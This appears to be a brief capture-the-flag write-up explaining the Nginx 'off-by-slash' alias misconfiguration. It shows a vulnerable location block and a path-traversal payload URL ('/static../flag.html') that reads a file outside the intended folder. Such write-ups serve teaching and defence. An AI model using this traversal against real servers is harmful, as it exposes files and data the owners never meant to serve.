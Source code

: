 ## WEB - Paths

Nginx off-by-slash fail, When a Nginx directive does not end with a slash, it is possible to traverse one step up. This incorrect configuration could allow an attacker to read file stored outside the target folder. in our case

```python
#nginx.conf
location /static {
        alias /var/www/html/static/;
    }
```

payload:
`https://host:port/static../flag.html`
